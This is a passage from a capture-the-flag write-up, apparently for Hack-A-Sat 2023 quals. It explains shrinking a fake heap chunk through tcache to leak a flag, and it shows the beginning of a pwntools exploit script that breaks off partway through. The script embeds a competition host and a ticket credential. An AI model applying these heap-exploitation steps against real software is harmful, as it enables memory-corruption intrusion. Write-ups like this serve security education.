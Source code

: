 Unfortunately, the leak part of the stack does not contain the flag. If we
dump the end of the stack in gdb and compare it with our outputs, we notice,
that we dumped the area after the flag. In order to dump the flag, we have to
shrink our buffer.

## Shrink fake chunk

In order to shrink the fake chunk, we first have to move it from the unsorted
bin to tcache, since allocating and freeing chunks from unsorted bin triggers
a bunch of tests that are hard to circumvent in our current situation. In
contrast, tcache features much less and much weaker checks, such that we only
have to change the size in the header of the fake chunk while it is allocated.
For leaking the variable part at the end of the flag, a chunk size of 0x80
with an input of an odd number of hex chars is sufficient, while a chunk size
of 0x70 with an even number of hex chars results in the constant front part of
the flag being leaked.

```python  
def shrink_fake_chunk(con: tube, new_size: int) -> None:  
   post_message(con, 100, 0, True, b"f"*(0x138*2))  
   change_fake_chunk(con, new_size, 0)  
   recv_message(con, 0)  
   print(f"shrinked chunk to {new_size:x}")

SIZE = 0x80

shrink_fake_chunk(io, SIZE)  
```

## Full exploit script

Together with the typical pwntools boiler plate code and some adjustments for
Hack-A-Sat, we get the full exploit script:  
```python  
#!/usr/bin/env python3  
# -*- coding: utf-8 -*-  
from pwn import *

context.terminal = ["tmux", "splitw", "-h"]

elf = context.binary = ELF('./magic')

host = args.HOST or 'magic.quals2023-kah5Aiv9.satellitesabove.me'  
port = int(args.PORT or 5300)

def start_local(argv=[], *a, **kw):  
   '''Execute the target binary locally'''  
   if args.GDB:  
       return gdb.debug([elf.path] + argv, gdbscript=gdbscript, *a, **kw)  
   else:  
       return process([elf.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):  
   '''Connect to the process on the remote host'''  
   io = connect(host, port)  
   if args.GDB:  
       gdb.attach(io, gdbscript=gdbscript)  
   elif host != "localhost":  
       io.sendlineafter(b"Ticket please:\n", b"ticket{victor319320juliet4:GJ_fZHwnIpvb_CgZcrCcvo6_sGBEa3lhFg3ihTX6iiX77Ux3yqA5Se8zH7IMpwBy8A}")  
   return io

def start(argv=[], *a, **kw):  
   '''Start the exploit against the target.'''  
```